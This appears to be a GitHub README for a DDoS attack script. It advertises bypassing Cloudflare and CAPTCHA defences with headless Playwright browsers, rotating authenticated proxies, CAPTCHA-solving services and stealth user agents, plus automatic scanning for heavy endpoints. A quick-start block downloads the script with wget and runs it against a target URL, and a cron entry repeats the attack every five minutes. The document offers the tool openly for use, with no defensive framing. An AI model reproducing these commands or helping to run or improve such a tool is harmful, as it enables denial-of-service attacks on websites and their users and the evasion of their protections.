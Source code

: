 OneShotCyber DDoS Headless Auto Script

🔥 Auto-Bypass Cloudflare & CAPTCHA protected site using Playwright + Proxy + Smart Path Scanner

🧠 Features
	•	✅ Proxy Auth Support (username:password@ip:port)
	•	✅ Headless Browser (Playwright) emulating real user behavior
	•	✅ Auto solve CAPTCHA (2Captcha + CapMonster)
	•	✅ Auto detect Cloudflare, JS Challenge, and Turnstile
	•	✅ Auto scan heavy endpoints
	•	✅ Random User-Agent & stealth mode
	•	✅ Save log to log_attack.json

📦 Requirements
	•	Python 3.9+
	•	VPS with 1GB+ RAM (4GB recommended)
	•	Ubuntu / Debian based distro

📁 Install Dependencies

apt update && apt install -y python3 python3-pip curl wget
pip3 install -r gas_2505requirements.txt
playwright install

🚀 Quick Start

cd /root && \
wget -q https://raw.githubusercontent.com/CandraRudi/ddos/main/gas_2505.py && \
wget -q https://raw.githubusercontent.com/CandraRudi/ddos/main/gas_2505requirements.txt && \
pip3 install -r gas_2505requirements.txt && \
python3 gas_2505.py "https://target.com"

🔐 Proxy format must be stored in /var/www/html/proxy_new.txt:

ip:port:username:password

⏰ Setup Cron Job (every 5 minutes)

*/5 * * * * /usr/bin/python3 /root/gas_2505.py >> /root/log_headless.txt 2>&1

📝 Logs
	•	Log stats will be stored in /var/www/html/log_attack.json
	•	Valid proxies will be stored in valid_proxies.txt

🧠 Advanced
	•	Automatically identifies heavy paths using scan + crawl
	•	Injects stealth JS + bypasses Cloudflare challenge

⸻

Created with love by CandraRudi 🧠💥
